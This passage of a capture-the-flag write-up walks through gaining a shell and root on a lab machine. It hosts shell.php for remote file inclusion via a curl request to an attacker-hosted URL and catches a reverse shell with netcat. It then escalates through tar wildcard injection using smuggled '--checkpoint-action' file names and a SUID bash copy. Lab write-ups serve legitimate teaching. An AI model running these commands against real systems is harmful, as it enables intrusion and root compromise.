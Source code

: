 Host the malicious file using Python's built-in HTTP server:

```bash
python -m SimpleHTTPServer
```

Configure a netcat listener to catch the reverse shell:

```bash
nc -nvlp 4444
```

Trigger the RFI vulnerability:

```bash
curl "http://IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://IP:8000/shell.php"

```

2. Once the reverse shell is established, retrieve the user flag:

```bash
cat /home/milesdyson/user.txt
```

<img width="720" height="340" alt="SCREEN09" src="https://github.com/user-attachments/assets/642d77fe-edf0-4a51-9c5f-1e3841715e15" />

---

### What is the root flag?

_A recursive call._

1. Upgrade the reverse shell for better functionality. Examine scheduled tasks for privilege escalation opportunities. The vulnerability exists in how tar processes command-line arguments when wildcards are used. By creating files with names that match tar's command-line options, it's possible to execute arbitrary commands.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'

cat /etc/crontab
cd /var/www/html
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# Wait for the cron job to execute
/tmp/rootbash -p
ls /root
cat /root/root.txt
```

<img width="433" height="143" alt="SCREEN10" src="https://github.com/user-attachments/assets/ddf5b470-e4c1-483d-85f0-9bf2bf0108e9" />
